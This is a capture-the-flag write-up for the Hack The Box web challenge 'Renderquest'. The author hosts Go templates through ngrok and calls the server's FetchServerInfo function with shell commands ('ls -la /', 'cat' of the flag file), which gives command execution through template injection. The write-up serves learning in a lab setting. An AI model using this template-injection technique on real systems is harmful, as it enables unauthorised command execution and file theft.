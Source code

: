 # Renderquest

An easy Web challenge.

## Description

You've found a website that lets you input remote templates for rendering. Your task is to exploit this system's vulnerabilities to access and retrieve a hidden flag. Good luck!

**Source?** Yes.

### Initial analysis

A webpage with a single input. Seems like it is meant to render a custom template when given the path. Inputting something random like "hej", returns an internal server error.
The query is of the form:

- <http://localhost:1337/render?use_remote=true&page=ServerInfo.OS>

It seems we are to create a GO template and supply the path to it. We are given a list of available data for the template:

``` GO
    ClientIP
    ClientUA
    ClientIpInfo.IpVersion
    ClientIpInfo.IpAddress
    ClientIpInfo.Latitude
    ClientIpInfo.Longitude
    ClientIpInfo.CountryName
    ClientIpInfo.CountryCode
    ClientIpInfo.TimeZone
    ClientIpInfo.ZipCode
    ClientIpInfo.CityName
    ClientIpInfo.RegionName
    ClientIpInfo.Continent
    ClientIpInfo.ContinentCode
    ServerInfo.Hostname
    ServerInfo.OS
    ServerInfo.KernelVersion
    ServerInfo.Memory
```

We are required to host the template to be loaded. Therefore i use `python -m http.server 8080`.
To be able to supply the HTB instance with the template ngrok is used to create a secure tunnel to the locally hosted python webserver. The ngrok command is `ngrok http 8080`.

*DISCLAIMER* It is required to have a ngrok account and API key for the ngrok approach to work and not necesarry for this challenge, just my approach.

To check if the GO template method works, a template with

```GO {{ html "test" }}```

This renders the html page containing "test". Which shows we care able to control the output of the page.

### Getting RCE

Checking out main.go we see a lot of functions. Especially the FetchServerInfo() function is interesting, as it makes the following call:  `out, err := exec.Command("sh", "-c", command).Output`. Where the *command* is an argument passed to the function.

In go it is possible to call functions in the template using `{{ ."SomeFunction" "argument" }}`.

This allows us to craft a payload in a simple GO template file (.tpl) which will print the output to the webbrowser because the *out* variabel is returned in the `FetchServerInfo`() function.

The payload consists of to templates. The first has the purpose of finding the flag. The find.tpl template which contains the GO code:

```GO
{{ .FetchServerInfo "ls -la /" }}
```

first.tpl the directory structure of the server hosting the website and the files it contains.

The second template, flag.tpl contains the following GO code:

```GO
{{ .FetchServerInfo "cat /unique-flag-name.txt" }}

```

To provide these templates to be rendered by the challenge instance, the ngrok url is used as follows: `https://unique-ngrok-url/*template.tpl*`

Provide the templates in order to obtain the random flag name, and render the contents afterwards.

This concludes this challenge.
